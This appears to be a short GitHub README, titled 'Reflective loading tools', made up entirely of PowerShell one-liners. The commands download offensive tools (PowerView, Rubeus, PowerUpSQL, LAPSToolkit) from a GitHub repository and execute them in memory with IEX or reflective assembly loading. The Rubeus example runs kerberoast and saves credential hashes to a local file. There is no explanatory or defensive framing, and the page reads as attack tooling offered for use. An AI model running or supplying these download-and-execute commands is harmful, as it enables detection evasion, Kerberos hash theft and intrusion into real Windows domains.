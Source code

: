 # Reflective loading tools

PowerView
```powershell
(new-object system.net.webclient).downloadstring('https://raw.githubusercontent.com/wez3/reflective-loading/main/PowerView.ps1') | IEX
```

Rubeus
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('https://raw.githubusercontent.com/wez3/reflective-loading/main/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("kerberoast /outfile:C:\temp\hashes.txt".Split())
```
PowerUpSQL
```powershell
(new-object system.net.webclient).downloadstring('https://raw.githubusercontent.com/wez3/reflective-loading/main/PowerUpSQL.ps1') | IEX
```

LAPSToolkit
```powershell
(new-object system.net.webclient).downloadstring('https://raw.githubusercontent.com/wez3/reflective-loading/main/LAPSToolkit.ps1') | IEX
```
